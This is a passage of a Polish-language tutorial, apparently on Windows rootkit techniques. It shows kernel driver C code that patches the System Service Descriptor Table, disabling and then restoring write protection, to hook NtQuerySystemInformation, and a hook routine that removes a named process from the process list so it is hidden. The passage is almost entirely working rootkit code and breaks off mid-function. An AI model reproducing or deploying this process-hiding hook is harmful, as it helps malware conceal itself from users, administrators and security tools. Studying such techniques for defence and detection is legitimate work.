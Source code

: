```c
// Zapisz adres oryginalnej funkcji w zmiennej
NtQuerySystemInformationOrigHandle = (pNtQuerySystemInformation)OrigNtQuerySystemInformation;
// Podmień adres oryginalnej funkcji w tablicy na adres funkcji hook'a
// Funkcja InterlockedExchangePointer podmienia wskaźnik pod zadanym adresem
InterlockedExchangePointer((PVOID)SSDTAddress, (PVOID)HookNtQuerySystemInformation);

// Ponownie włącz zabezpieczenia WP
EnableWP();

DbgPrint("End of DriverEntry!\n");

return STATUS_SUCCESS;
```
Ostatnim, najważniejszym krokiem jest stworzenie procedury "hookującej". W tym celu zaimplementowano proste "wypięcie" procesu o danej nazwie z listy.

```c

// Deklaracja struktury elementu listy procesów
typedef struct _SYSTEM_PROCESS_INFORMATION {
	ULONG                   NextEntryOffset;
	ULONG                   NumberOfThreads;
	LARGE_INTEGER           Reserved[3];
	LARGE_INTEGER           CreateTime;
	LARGE_INTEGER           UserTime;
	LARGE_INTEGER           KernelTime;
	UNICODE_STRING          ImageName;
	KPRIORITY               BasePriority;
	HANDLE                  ProcessId;
	HANDLE                  InheritedFromProcessId;
} SYSTEM_PROCESS_INFORMATION, * PSYSTEM_PROCESS_INFORMATION;

NTSTATUS HookNtQuerySystemInformation(ULONG SystemInformationClass, PVOID SystemInformation, ULONG SystemInformationLength, PULONG ReturnLength)
{
	if (SystemInformationClass != 0x05)
	{
		// Zażądano innych informacji, użyj oryginalnej funkcji.
		return NtQuerySystemInformationOrigHandle(SystemInformationClass, SystemInformation, SystemInformationLength, ReturnLength);
	}

	// Zażądano informacji o procesach, pobierz listę procesów z oryginalnej funkcji
	const NTSTATUS ret = NtQuerySystemInformationOrigHandle(SystemInformationClass, SystemInformation, SystemInformationLength, ReturnLength);
	if (!NT_SUCCESS(ret))
	{
		return ret;
	}
	DbgPrint("Hiding the process...\n");

	PSYSTEM_PROCESS_INFORMATION curr = NULL, next = SystemInformation;

	while (next->NextEntryOffset != 0)
	{
		// Iteruj po liście procesów w celu znalezienia 
		// procesu do ukrycia. Uwaga! Pierwszy element listy jest pusty.
		curr = next;
		next = (PSYSTEM_PROCESS_INFORMATION)((PUCHAR)curr + curr->NextEntryOffset);
        // Porównanie nazwy szukanego procesu z właściwą nazwą pobraną ze struktury elementu listy
		if (!wcscmp(processToHide, next->ImageName.Buffer))
		{
			DbgPrint("Found the calculator!\n");
			if (next->NextEntryOffset == 0)
```